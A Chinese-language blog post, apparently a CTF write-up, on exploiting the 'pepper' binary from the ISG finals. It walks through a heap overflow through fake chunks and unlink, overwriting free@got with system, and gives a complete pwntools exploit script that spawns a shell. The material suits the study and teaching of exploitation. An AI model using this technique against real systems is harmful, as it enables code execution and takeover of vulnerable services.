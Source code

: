 ```yaml
---
title: ISG决赛pepper
author: rk700
layout: post
categories:
  - writeup
tags:
  - exploit
---
```


这道题目是去年参加ISG决赛时遇到的。二进制文件是有多个漏洞，我们当时是做的栈溢出，而堆溢出一直没有研究过。正好这两天在学习堆溢出，发现这道题和0CTF的freenote十分相似，不愧是同一批人出的题目。所以，在这里简要记录下，因为思路是完全一样的

具体地，通过修改restaurant的功能，我们可以重新编辑restaurant的description。description是保存在堆上的，但在修改时，完全没有考虑新的内容会超过之前分配的大小，于是堆溢出了。与freenote一样，我们写大量的内容到堆上，来构造一系列伪chunks，再通过`free`时的`unlink`，来修改某个值。

在`unlink`检查时，也用的是和freenote一样的方法，即找到某个存有我们伪chunk地址的地方，从那里往前3个指针作为`fd`，往前2个指针作为`bk`。freenote里，保存`malloc`地址的结构数组是存在堆上的，所以那道题我们需要首先得到heap的地址。而pepper这道题，保存所有restaurant结构的数组是在全局变量，已经是固定位置，所以省下了这一环节。

后面的思路就完全一样了。再次修改，使得description指向`free@got`，并通过读写，将`system`的地址写到`free@got`，最后删除时就会调用`system`了。

下面是具体代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *

r = remote('127.0.0.1', 55555)

f = open("payload", "wb")

def send(x):
    r.send(x)
    f.write(x)

def newItem(length, desc, name="restaurant", address="road", no="1", score=100):
    r.recvuntil('Your choice: ')
    send('4\n')
    r.recvuntil('Input Rest. name(no more than 32 characters): ')
    send(name+'\n')
    r.recvuntil('On which road(no more than 128 characters)? ')
    send(address+'\n')
    r.recvuntil('Street No? ')
    send(no+'\n')
    r.recvuntil('Length of the description of your favourite dish: ')
    send(str(length)+'\n')
    r.recvuntil('Input your description:')
    send(desc+'\n')
    r.recvuntil('Finally, give a score ;-)')
    send(str(score)+'\n')

def delItem(i):
    r.recvuntil('Your choice: ')
    send('3\n')
    r.recvuntil('Input the index of Rest. you want to delete: ')
    send(str(i) + '\n')

def showItem(i):
    r.recvuntil('Your choice: ')
    send('2\n')
    r.recvuntil('Please input the index of the restaurant: ')
    send(str(i)+'\n')
    r.recvuntil('Recommended Dish: ')
    return r.recvline(keepends=False)

def editItem(i, length, desc, score=100):
    r.recvuntil('Your choice: ')
    send('5\n')
    r.recvuntil('Input the index of Rest. you want to edit: ')
    send(str(i) + '\n')
    r.recvuntil('New score XD: ')
    send(str(score) + '\n')
    r.recvuntil('Do you want to change the description of the recommended dish(y/n)? ')
    send("y\n")
    r.recvuntil('New len: ')
    send(str(length)+'\n')
    r.recvuntil('New description: ')
    send(desc+'\n')

def quit():
    r.recvuntil('Your choice: ')
    send('6\n')

newItem(127, "aaaa")
newItem(127, "bbbb")

#fd->bk = bk->fd = &ptr
ptr = 0x0804b0a0 + 4*2
fd = ptr - 4*3
bk = ptr - 4*2

# crafted chunks
# chunk0' starts from &ptr
# chunk0 is free
chunk0 = p32(0) + p32(0x81) + p32(fd) + p32(bk) + "A"*(0x80-4*4)
chunk1 = p32(0x80) + p32(0x90) + "B"*(0x90-4*2)
chunk2 = p32(0) + p32(0x91) + "C"*(0x90-4*2)
chunk3 = p32(0) + p32(0x91) + "D"*(0x90-4*2)
chunk = chunk0 + chunk1 + chunk2 + chunk3
editItem(0, 1000, chunk)

# free chunk1, and will result in unlink of chunk0
delItem(1)
# now restaurant0's description points to 0x0804b09c

freeGot = 0x0804b014
free2system = -0x38520

# will overwrite first 12 bytes of restaurant0 and set its description pointing to free@got
editItem(0, 20, p32(0)+p32(100)+p32(20)+p32(freeGot))

s = showItem(0)
freeAddr = u32((s[:4].ljust(4, '\x00'))[:4])
systemAddr = freeAddr + free2system
print "system is at %s" % hex(systemAddr)

# write system to free@got
editItem(0, 4, p32(systemAddr))

# invoke system("/bin/sh")
newItem(20, "/bin/sh")
delItem(1)

r.interactive()
exit(0)
{% endhighlight %}

所以这道题用的还是`unlink`。而我看[217的writeup](http://217.logdown.com/posts/241446-isg-2014-pepper)里，似乎是通过fastbin来做的，有空再研究下fastbin这种方法。
